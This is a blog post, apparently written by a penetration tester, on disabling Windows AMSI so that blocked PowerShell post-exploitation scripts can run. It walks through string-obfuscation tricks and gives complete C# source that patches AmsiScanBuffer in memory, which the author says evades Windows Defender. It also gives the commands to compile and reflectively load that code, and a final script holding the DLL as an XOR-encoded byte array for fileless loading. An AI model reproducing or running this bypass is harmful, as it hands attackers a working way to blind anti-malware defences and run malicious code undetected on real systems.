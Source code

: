 ```yaml
---
layout: post
title: "Execute any \"evil\" Powershell code by bypassing AMSI"
author: "Mor Davidovich @Dec0ne"
---
```

Powershell can be a powerful tool during the post-exploitation phase of our engagements. It packs a lot of native tools that can help us enumerate further beyond our initial foothold and onto the rest of the AD network. Probably, one of the best advantages of Powershell is having access to awesome public scripts and tools like Empire, PowerSploit, Nishang and many others, but what if AMSI will not let us use any of these tools?

## What is AMSI?
AMSI stands for "Anti Malware Scan Interface" and it's job is to scan and block anything malicious.
Still don't know what I'm talking about? Perhaps this will help:
<img src="/img/amsi-bypass-post/1.PNG?raw=true">
Obviously if you are experienced with pentesting in AD networks, you encountered this error with almost all public known scripts.

## How AMSI works exactly?
It uses a string based detection mechanism to detect “dangerous” commands and potentially malicious scripts.
Check out this example:
<img src="/img/amsi-bypass-post/2.PNG?raw=true">
As you can see the word "amsiutils" is prohibited so any Powershell scripts containing this word will be blocked by AMSI.

## So how can we bypass it?
Good thing you asked because I got some examples for you.
String based detection are very easy to bypass - just refrain from using the banned string literally.
Here are some ways to execute banned string without actually using it:
<img src="/img/amsi-bypass-post/3.PNG?raw=true">
By simply splitting the string you could fool AMSI and execute your banned string. This is a very common technique to use in obfuscation in general.
<img src="/img/amsi-bypass-post/4.PNG?raw=true">
You can also encode your string to base64 - in most cases that will be enough to fool AMSI.
If all else fails we can encode the string to bytes and even use XOR to make it even harder for AMSI but we will discuss that towards the end of the post.
The examples above are mere workarounds though, and to do this with every online public scripts we want to use is simply impractical.
So how can we __disable__ AMSI?

## Disabling AMSI
After scouring the web for a bit searching for a practical way to disable AMSI I stumbled onto [CyberArk post](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/) in which he explains how he was able to disable AMSI using a memory patch to basically make AMSI execute all of its scans on a length of 0 (AKA not scanning anything). He provided a C# code that compiles into a DLL which we can load into Powershell and disable AMSI.
Unfortunately, CyberArk code's not longer valid. Apparently Windows Defender now blocks it so we can't even compile it, let alone load it into Powershell.
Upon further investigation and manipulation to the CyberArk code I managed to come up with this code that successfully evades Windows Defender:
```c#
using System;
using System.Runtime.InteropServices;

namespace BP
{
    public class AMS
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);


        public static void Disable()
        {
            IntPtr AMSDLL = LoadLibrary("amsi.dll");
            IntPtr AMSBPtr = GetProcAddress(AMSDLL, "Am" + "si" + "Scan" + "Buffer");
            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            VirtualProtect(AMSBPtr, dwSize, 0x40, out Zero);
            Byte[] Patch1 = { 0x31 };
            Byte[] Patch2 = { 0xff };
            Byte[] Patch3 = { 0x90 };
            IntPtr unmanagedPointer1 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch1, 0, unmanagedPointer1, 1);
            MoveMemory(AMSBPtr + 0x001b, unmanagedPointer1, 1);
            IntPtr unmanagedPointer2 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch2, 0, unmanagedPointer2, 1);
            MoveMemory(AMSBPtr + 0x001c, unmanagedPointer2, 1);
            IntPtr unmanagedPointer3 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch3, 0, unmanagedPointer3, 1);
            MoveMemory(AMSBPtr + 0x001d, unmanagedPointer3, 1);
            Console.WriteLine("Memory patched successfuly.");
        }
    }
}
``` 
You can easily compile it into a DLL using Powershell:
```powershell
PS C:\Users\Mor> Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
```
To load it into Powershell we can use its native (.NET) API:
```powershell
PS C:\Users\Mor> [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
```
and to execute it, we simply call the now loaded function inside the DLL:
```powershell
PS C:\Users\Mor> [BP.AMS]::Disable()
```
This is how it looks in action:
<img src="/img/amsi-bypass-post/5.PNG?raw=true">
As you can see, we are now able to use the string "amsiutils" literally. We have successfully disabled AMSI. Right now we can load any external Powershell script like PowerSploit or Nishang without AMSI blocking it.

## Putting it all together
Once we have everything working we should try to automate everything we can because during engagements we might not have the time or the ability to do all of the steps above.
I decided to encode the entire DLL to base64 and create a script that will automatically reflect it to memory and execute it.
To encode the dll to base64 I used this command:
```powershell
PS C:\Users\Mor> $encoded_dll_string = [Convert]::ToBase64String([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
```
<img src="/img/amsi-bypass-post/6.PNG?raw=true">
The resulted string is the encoded DLL.

We can load it into memory like this:

```powershell
PS C:\Users\Mor> [Reflection.Assembly]::Load([Convert]::FromBase64String($encoded_dll_string)) | Out-Null
```
To my surprise, AMSI detected my encoded DLL string (or at least some part of it) as malicious and blocked it:
<img src="/img/amsi-bypass-post/7.PNG?raw=true">
I managed to bypass this by splitting the string somewhere in the middle (after some trial and error) but in my final script I decided to go with something a bit more "long-term": ByteString + XOR
Since AMSI only detects strings and not logic I needed a way to represent the DLL code with a string that I could easily change whenever AMSI decides to ban it.

What I did is the following:
I loaded the DLL bytes in Powershell, ran the byte array through a XOR function and finally converted it to a ByteString.
```powershell
PS C:\Users\Mor> $byteArray = [IO.File]::ReadAllBytes("$pwd\\Source.dll")
PS C:\Users\Mor> $keyArray = @(12, 85, 65)
PS C:\Users\Mor> $keyPosition = 0
PS C:\Users\Mor> for($i=0; $i -lt $byteArray.count ; $i++)
				 {
					 $byteArray[$i] = $byteArray[$i] -bxor $KeyArray[$keyposition]
				 	 $keyposition += 1
				 	 if ($keyposition -eq $keyArray.Length) {$keyposition = 0}
				 }
PS C:\Users\Mor> $byteString = ($byteArray | ForEach-Object ToString) -join ','
```
The only thing left to do is to copy the encoded ByteString into the final Powershell script and host it online for me to use whenever I need it. 
If for some reason AMSI will ever decide to block my encoded ByteString all I need to do is change the XOR key and copy the new encoded ByteString to the Powershell script and I'm good to go.

The final Powershell script:
```powershell
function AMSBP
{
	if (-not ([System.Management.Automation.PSTypeName]"BP.AMS").Type) {
		$byteArray = @(65,15,209,12,86,65,12,85,69,12,85,65,243,170,65,12,237,65,12,85,65,12,85,65,76,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,140,85,65,12,91,94,182,91,65,184,92,140,45,237,64,64,152,96,88,61,40,127,117,49,126,58,38,126,52,44,44,54,32,98,59,46,120,117,35,105,117,51,121,59,97,101,59,97,72,26,18,44,56,46,104,48,111,1,88,75,40,85,65,12,85,65,12,85,17,73,85,65,64,84,66,12,29,246,200,8,65,12,85,65,12,85,65,12,181,65,14,116,74,13,94,65,12,93,65,12,85,71,12,85,65,12,85,65,194,115,65,12,85,97,12,85,65,76,85,65,12,85,65,28,85,97,12,85,65,14,85,65,8,85,65,12,85,65,12,85,69,12,85,65,12,85,65,12,85,193,12,85,65,14,85,65,12,85,65,12,86,65,76,208,65,12,69,65,12,69,65,12,85,65,28,85,65,28,85,65,12,85,65,12,69,65,12,85,65,12,85,65,12,85,65,12,45,103,12,85,18,12,85,65,12,21,65,12,245,67,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,53,65,12,89,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,44,85,65,4,85,65,12,85,65,12,85,65,12,85,65,4,117,65,12,29,65,12,85,65,12,85,65,12,85,65,12,123,53,105,45,53,12,85,65,216,83,65,12,85,97,12,85,65,4,85,65,12,87,65,12,85,65,12,85,65,12,85,65,12,85,65,12,117,65,12,53,111,126,38,51,111,85,65,12,245,67,12,85,65,76,85,65,12,81,65,12,85,75,12,85,65,12,85,65,12,85,65,12,85,65,12,85,1,12,85,1,34,39,36,96,58,34,12,85,77,12,85,65,12,53,65,12,85,67,12,85,65,2,85,65,12,85,65,12,85,65,12,85,65,12,85,65,76,85,65,78,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,241,42,85,65,12,85,65,12,29,65,12,85,67,12,80,65,76,116,65,12,109,68,12,85,64,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,70,113,8,85,157,12,85,65,13,85,65,29,39,64,12,85,49,36,87,65,12,83,75,10,39,82,12,85,49,36,84,65,12,83,74,23,125,68,12,85,75,0,67,76,11,93,94,76,71,66,36,86,65,12,83,103,27,216,70,12,85,64,31,95,80,6,67,94,61,201,80,6,70,69,27,216,70,12,85,64,31,94,80,7,67,97,243,85,65,12,201,80,7,70,68,27,216,70,12,85,64,31,89,80,0,67,97,156,85,65,12,201,80,0,70,71,27,125,71,12,85,75,31,82,80,8,67,80,11,66,105,11,85,65,6,82,94,23,125,73,12,85,75,29,82,86,36,81,65,12,83,86,36,83,65,12,95,82,4,68,68,26,68,73,27,125,70,12,85,75,11,74,93,36,93,65,12,95,80,4,66,105,8,85,65,10,66,105,10,85,65,6,70,72,29,83,87,29,92,86,36,82,65,12,95,70,19,72,105,4,85,65,6,68,72,27,125,69,12,85,71,126,100,65,12,37,105,5,85,65,6,127,95,14,125,75,12,85,75,38,23,18,70,23,64,12,84,65,12,85,65,12,89,65,12,85,55,56,123,113,34,102,113,63,100,120,12,85,65,12,80,65,96,85,65,12,129,64,12,85,98,114,85,65,76,87,65,12,189,64,12,85,98,95,33,51,101,59,38,127,85,65,12,85,105,8,85,65,96,85,65,12,118,20,95,85,213,8,85,65,28,85,65,12,118,6,89,28,5,12,85,65,168,81,65,12,193,65,12,85,98,78,57,46,110,85,65,12,85,65,12,85,67,12,85,64,75,64,67,24,92,65,12,85,65,246,112,114,12,67,65,12,84,65,12,85,75,12,85,65,14,85,65,12,83,65,12,85,75,12,85,65,6,85,65,12,87,65,12,85,64,12,85,65,14,85,65,12,81,65,12,85,64,12,85,65,13,85,65,12,85,65,6,85,64,12,85,65,12,85,71,12,121,65,41,85,71,12,141,65,181,85,71,12,70,64,255,85,71,12,102,64,255,85,71,12,13,64,181,85,71,12,218,64,41,85,71,12,246,64,41,85,71,12,253,64,181,85,71,12,151,64,41,85,71,12,128,64,41,85,65,12,85,65,13,85,65,12,85,65,13,85,64,12,84,65,28,85,84,12,76,65,9,85,64,12,84,65,12,85,65,12,213,65,154,117,114,12,95,65,13,85,65,12,85,65,140,85,215,44,23,65,28,85,66,12,85,65,12,85,193,12,195,97,66,85,84,12,81,65,12,85,65,12,213,65,157,117,28,12,75,65,4,85,17,44,85,65,12,85,215,12,61,65,41,85,74,12,109,96,12,85,65,12,211,89,124,85,104,12,94,65,12,85,64,12,35,65,12,85,67,12,43,65,12,85,64,12,210,65,12,85,64,12,217,65,12,85,67,12,195,65,12,85,66,12,200,65,14,85,69,12,255,65,12,85,64,12,176,65,12,85,67,12,191,65,12,85,66,12,187,65,29,85,49,12,124,65,21,85,49,12,120,65,45,85,49,12,124,65,37,85,49,12,103,65,61,85,214,13,98,65,77,85,241,13,105,65,77,85,252,13,20,65,69,85,136,13,31,65,93,85,156,13,5,65,5,85,49,12,124,65,34,85,82,12,62,65,34,85,90,12,33,65,89,85,42,13,33,64,12,84,66,12,102,65,13,85,65,13,80,65,78,85,64,12,85,64,11,85,15,12,84,65,12,84,72,12,212,64,14,85,69,140,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,16,13,85,65,8,85,65,12,85,65,12,85,65,12,85,65,13,85,93,12,85,65,12,85,65,12,85,125,65,58,37,121,57,36,50,85,18,99,32,51,111,48,111,104,57,45,12,20,12,95,85,3,92,85,44,127,54,46,126,57,40,110,85,18,117,38,53,105,56,65,67,55,43,105,54,53,12,18,36,120,5,51,99,54,0,104,49,51,105,38,50,12,25,46,109,49,13,101,55,51,109,39,56,12,3,40,126,33,52,109,57,17,126,58,53,105,54,53,12,24,46,122,48,12,105,56,46,126,44,65,72,60,50,109,55,45,105,85,111,111,33,46,126,85,41,65,58,37,121,57,36,12,37,51,99,54,15,109,56,36,12,59,32,97,48,65,96,37,0,104,49,51,105,38,50,12,49,54,95,60,59,105,85,39,96,27,36,123,5,51,99,33,36,111,33,65,96,37,39,96,26,45,104,5,51,99,33,36,111,33,65,95,44,50,120,48,44,34,7,52,98,33,40,97,48,111,69,59,53,105,39,46,124,6,36,126,35,40,111,48,50,12,26,52,120,20,53,120,39,40,110,32,53,105,85,37,105,38,53,12,38,51,111,85,50,101,47,36,12,6,56,127,33,36,97,123,19,121,59,53,101,56,36,34,22,46,97,37,40,96,48,51,95,48,51,122,60,34,105,38,65,79,58,44,124,60,45,109,33,40,99,59,19,105,57,32,116,52,53,101,58,47,127,20,53,120,39,40,110,32,53,105,85,19,121,59,53,101,56,36,79,58,44,124,52,53,101,55,40,96,60,53,117,20,53,120,39,40,110,32,53,105,85,18,99,32,51,111,48,65,72,57,45,69,56,49,99,39,53,77,33,53,126,60,35,121,33,36,12,62,36,126,59,36,96,102,115,12,30,36,126,59,36,96,102,115,34,49,45,96,85,19,120,57,12,99,35,36,65,48,44,99,39,56,12,0,8,98,33,17,120,39,65,99,37,30,73,45,49,96,60,34,101,33,65,78,44,53,105,85,12,109,39,50,100,52,45,12,20,45,96,58,34,68,18,45,99,55,32,96,85,2,99,37,56,12,28,47,120,5,53,126,85,46,124,10,0,104,49,40,120,60,46,98,85,2,99,59,50,99,57,36,12,2,51,101,33,36,64,60,47,105,85,65,12,68,32,12,56,65,127,85,40,12,123,65,104,85,45,12,57,65,12,72,0,12,56,65,127,85,40,12,6,65,111,85,32,12,59,65,78,85,52,12,51,65,106,85,36,12,39,65,12,98,12,12,48,65,97,85,46,12,39,65,117,85,97,12,37,65,109,85,53,12,54,65,100,85,36,12,49,65,44,85,50,12,32,65,111,85,34,12,48,65,127,85,50,12,51,65,121,85,45,12,44,65,34,85,65,12,85,65,246,138,25,159,14,129,98,22,249,32,70,187,62,94,163,211,85,73,187,47,29,90,76,117,236,220,68,12,87,89,20,91,69,12,84,89,2,93,65,8,87,89,21,92,81,5,83,65,15,84,89,20,93,66,12,85,64,15,117,65,13,81,97,13,84,73,8,117,64,13,91,69,12,84,88,5,81,65,13,77,73,4,85,69,13,72,68,4,77,73,9,85,67,20,77,73,8,85,64,13,91,84,11,88,89,20,76,72,17,80,92,9,72,68,20,77,89,17,80,92,9,72,68,4,84,65,4,85,65,12,85,65,18,84,65,13,85,21,14,67,22,126,52,49,66,58,47,73,45,34,105,37,53,101,58,47,88,61,51,99,34,50,13,85,225,42,85,65,12,85,65,12,85,65,12,85,255,42,85,65,12,117,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,188,115,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,83,22,46,126,17,45,96,24,32,101,59,65,97,38,34,99,39,36,105,123,37,96,57,65,12,85,65,12,170,100,12,117,65,28,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,13,85,81,12,85,65,20,85,65,140,85,65,12,85,65,12,85,65,12,85,65,12,85,65,13,85,64,12,85,65,60,85,65,140,85,65,12,85,65,12,85,65,12,85,65,12,85,65,13,85,65,12,85,65,68,85,65,12,13,1,12,85,5,14,85,65,12,85,65,12,85,65,12,85,5,14,97,65,12,85,23,12,6,65,83,85,23,12,16,65,94,85,18,12,28,65,67,85,15,12,10,65,69,85,15,12,19,65,67,85,65,12,85,65,177,81,174,242,85,65,13,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,51,85,65,12,85,65,12,85,69,12,85,65,14,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,17,65,12,85,64,12,3,65,109,85,51,12,19,65,101,85,45,12,48,65,69,85,47,12,51,65,99,85,65,12,85,65,40,85,69,12,85,65,88,85,51,12,52,65,98,85,50,12,57,65,109,85,53,12,60,65,99,85,47,12,85,65,12,85,65,12,229,69,168,84,65,12,84,65,95,85,53,12,39,65,101,85,47,12,50,65,74,85,40,12,57,65,105,85,8,12,59,65,106,85,46,12,85,65,140,84,65,12,84,65,60,85,113,12,101,65,60,85,113,12,97,65,110,85,113,12,85,65,32,85,67,12,84,65,74,85,40,12,57,65,105,85,5,12,48,65,127,85,34,12,39,65,101,85,49,12,33,65,101,85,46,12,59,65,12,85,65,12,117,65,12,85,113,12,93,65,13,85,7,12,60,65,96,85,36,12,3,65,105,85,51,12,38,65,101,85,46,12,59,65,12,85,65,12,101,65,34,85,113,12,123,65,60,85,111,12,101,65,12,85,121,12,94,65,13,85,8,12,59,65,120,85,36,12,39,65,98,85,32,12,57,65,66,85,32,12,56,65,105,85,65,12,6,65,99,85,52,12,39,65,111,85,36,12,123,65,104,85,45,12,57,65,12,85,65,12,125,65,14,85,64,12,25,65,105,85,38,12,52,65,96,85,2,12,58,65,124,85,56,12,39,65,101,85,38,12,61,65,120,85,65,12,117,65,12,85,1,12,94,65,13,85,14,12,39,65,101,85,38,12,60,65,98,85,32,12,57,65,74,85,40,12,57,65,105,85,47,12,52,65,97,85,36,12,85,65,95,85,46,12,32,65,126,85,34,12,48,65,34,85,37,12,57,65,96,85,65,12,85,65,56,85,73,12,84,65,92,85,51,12,58,65,104,85,52,12,54,65,120,85,23,12,48,65,126,85,50,12,60,65,99,85,47,12,85,65,60,85,111,12,101,65,34,85,113,12,123,65,60,85,65,12,109,65,4,85,64,12,20,65,127,85,50,12,48,65,97,85,35,12,57,65,117,85,97,12,3,65,105,85,51,12,38,65,101,85,46,12,59,65,12,85,113,12,123,65,60,85,111,12,101,65,34,85,113,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,44,85,65,0,85,65,12,133,119,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12)
		$KeyArray = @(12, 85, 65)
		$keyposition = 0
		for ($i = 0; $i -lt $byteArray.count; $i++)
		{
			$byteArray[$i] = $byteArray[$i] -bxor $KeyArray[$keyposition]
			$keyposition += 1
			if ($keyposition -eq $keyArray.Length) { $keyposition = 0 }
		}
		[Reflection.Assembly]::Load([byte[]]$byteArray) | Out-Null
		Write-Output "DLL has been reflected"
	}
	[BP.AMS]::Disable()
}
```

Here is the final [hosted script](https://raw.githubusercontent.com/Dec0ne/AMS-BP/master/AMSBP.ps1) in action:
<img src="/img/amsi-bypass-post/8.PNG?raw=true">

As you can see this technique is pretty simple to use and very useful when you wish to load some Powershell post-exploitation scripts that were once blocked by AMSI.

I hope you like this post like I enjoyed working on it. Hope you learned something new.
Thanks for CyberArk for sharing this technique.

Best regards,
Dec0ne
